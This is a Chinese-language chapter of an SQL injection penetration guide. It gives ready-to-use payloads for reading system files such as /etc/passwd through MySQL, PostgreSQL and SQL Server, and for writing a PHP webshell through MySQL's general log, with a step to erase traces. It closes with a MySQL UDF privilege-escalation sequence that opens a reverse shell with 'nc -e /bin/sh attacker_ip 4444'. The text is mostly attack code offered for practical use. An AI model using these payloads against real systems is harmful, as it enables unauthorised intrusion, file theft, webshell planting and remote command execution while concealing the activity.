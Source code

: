 ## 第四章：高权限注入与系统渗透
### 4.1 文件读写操作指南
当数据库用户具备`FILE`权限时，可通过SQL注入实现跨平台文件读写，以下是主流数据库的操作方法：

- **跨平台文件读取**：
  - **MySQL**：
```sql
UNION SELECT LOAD_FILE('/etc/passwd'),2,3 -- 读取Linux系统用户文件
UNION SELECT LOAD_FILE('C:/Windows/win.ini'),2,3 -- 读取Windows配置文件
```
  - **PostgreSQL**：
```sql
COPY (SELECT ''||pg_read_file('/etc/passwd')) TO '/tmp/output' -- 读取文件到临时目录
```
  - **SQL Server**：
```sql
CREATE TABLE data (line varchar(8000)); -- 创建临时表
BULK INSERT data FROM 'c:\windows\win.ini'; -- 导入文件内容
SELECT * FROM data; -- 查看文件内容
```

- **Webshell写入技术对比**：

| 方法         | 适用数据库 | 成功率 | 特点                                                         |
| ------------ | ---------- | ------ | ------------------------------------------------------------ |
| UNION写文件  | MySQL      | 高     | 需知道Web绝对路径，语法：`UNION SELECT '<?php ...>' INTO OUTFILE '/var/www/html/shell.php'` |
| OUTFILE语句  | MySQL      | 中     | 依赖`secure_file_priv`配置，默认仅允许特定目录写入           |
| 日志文件注入 | 通用       | 高     | 通过修改数据库日志路径，将SQL语句写入日志文件生成Webshell    |
| 错误日志利用 | SQL Server | 低     | 需开启错误日志功能，通过触发错误将代码写入日志               |

**实战：MySQL日志注入Webshell**：
```sql
1. 设置日志路径为Web目录：
   SET global general_log_file='C:/xampp/htdocs/shell.php';
   
2. 开启通用查询日志：
   SET global general_log=on;
   
3. 执行包含恶意代码的查询：
   SELECT '<?php system($_GET[cmd]);?>'; -- 代码将被写入日志文件
   
4. 清理痕迹：
   SET global general_log=off; -- 关闭日志记录
   SET global general_log_file='C:/xampp/mysql/data/general.log'; -- 恢复路径
```

### 4.2 系统命令执行技术
通过SQL注入获取系统命令执行权限是高级渗透的关键步骤，以下是主流数据库的提权方法：

- **MySQL UDF提权全流程**：
```markdown
1. 检测插件目录：
   SELECT @@plugin_dir; -- 获取UDF文件存放路径，如`/usr/lib/mysql/plugin/`
   
2. 上传恶意UDF文件：
   将预编译的`udf.so`（Linux）或`udf.dll`（Windows）通过十六进制注入写入插件目录：
   UNION SELECT binary 0x7F454C46... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so'
   
3. 创建系统函数：
   CREATE FUNCTION sys_exec RETURNS int SONAME 'udf.so'; -- 注册执行命令函数
   
4. 执行系统命令：
   SELECT sys_exec('nc -e /bin/sh attacker_ip 4444'); -- 反弹Shell
```